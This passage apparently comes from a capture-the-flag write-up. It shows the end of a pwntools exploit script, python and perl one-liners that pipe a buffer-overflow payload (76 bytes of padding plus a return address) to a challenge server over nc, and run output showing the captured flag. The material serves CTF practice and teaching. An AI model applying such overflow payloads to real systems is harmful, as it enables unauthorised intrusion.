 ```python
conn.sendline(payload)

# Receive the flag
log.success("Payload sent! Receiving response...")
response = conn.recvall().decode()
print(response)

# Extract and display the flag
if "sscit{" in response:
    flag_start = response.find("sscit{")
    flag_end = response.find("}", flag_start) + 1
    flag = response[flag_start:flag_end]
    log.success(f"Flag captured: {flag}")

conn.close()
```

## Alternative Exploitation Methods

### Command Line One-liner

For a quick exploit without Python:

```bash
python3 -c "import sys; sys.stdout.buffer.write(b'A'*76 + b'\x96\x91\x04\x08')" | nc ctf.0x4m4.com 9999
```

### Pure Bash Solution

If Python isn't available:

```bash
(perl -e 'print "A"x76 . "\x96\x91\x04\x08"'; cat) | nc ctf.0x4m4.com 9999
```

The `cat` command keeps the connection open to receive the flag output.

## Running the Exploit

When I executed the exploit, here's what happened:

```bash
python3 exploit.py
[*] Target function address: 0x8049196
[*] Crafting buffer overflow payload...
[*] Sending payload...
[+] Payload sent! Receiving response...

AUTHENTICATION FAILED: Invalid credentials
Your access attempt has been logged.

ACCESSING RESISTANCE MAINFRAME...
DECRYPTING CLASSIFIED INTELLIGENCE...

FLAG: sscit{h4ck1ng_th3_m41nfr4m3_r3s1st4nc3_w1ll_pr3v41l}

TRANSMISSION COMPLETE - RESISTANCE LIVES ON!

[+] Flag captured: sscit{h4ck1ng_th3_m41nfr4m3_r3s1st4nc3_w1ll_pr3v41l}
```
